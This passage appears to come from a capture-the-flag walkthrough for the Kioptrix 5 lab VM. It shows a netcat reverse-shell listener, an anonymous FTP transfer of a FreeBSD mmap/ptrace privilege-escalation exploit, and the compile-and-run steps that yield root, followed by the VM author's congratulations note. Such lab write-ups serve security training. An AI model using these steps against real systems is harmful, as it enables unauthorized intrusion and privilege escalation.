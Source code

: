 ```bash
kali@kali:~/Desktop/tools$ nc -lvp 4444
listening on [any] 4444 ...
connect to [192.168.63.3] from www.kioptrix5.com [192.168.63.4] 26454
id
uid=80(www) gid=80(www) groups=80(www)
```

## Root Shell

Root is straight forward. There is [FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation](https://www.exploit-db.com/exploits/26368) available. I copied it to the system using `ftp`. Compile it with `gcc` and run to become `root`

Start a ftp server using `python`. You might have to run `sudo pip3 install pyftpdlib`

```bash
kali@kali:~/Desktop/vulnhub/kioptrix5$ sudo python3 -m pyftpdlib -p 21
[I 2020-02-14 04:51:53] >>> starting FTP server on 0.0.0.0:21, pid=6268 <<<
[I 2020-02-14 04:51:53] concurrency model: async
[I 2020-02-14 04:51:53] masquerade (NAT) address: None
[I 2020-02-14 04:51:53] passive ports: None
[I 2020-02-14 04:52:03] 192.168.63.4:32644-[] FTP session opened (connect)
[I 2020-02-14 04:52:12] 192.168.63.4:32644-[anonymous] USER 'anonymous' logged in.
[I 2020-02-14 04:52:16] 192.168.63.4:32644-[anonymous] RETR /home/kali/Desktop/vulnhub/kioptrix5/exploit.c completed=1 bytes=2139 seconds=0.001
[I 2020-02-14 04:52:18] 192.168.63.4:32644-[anonymous] FTP session closed (disconnect).
```

Login as `anonymous` with any password and copy the exploit.
```bash
$ ftp 192.168.63.3
anonymous
Password: aa
Name (192.168.63.3:root): get exploit.c
exit
$ gcc exploit.c
$ ./a.out
id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
cd /root
cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in 
mind, and not meant for the seasoned pentester. However this does not mean one 
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks. 

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
```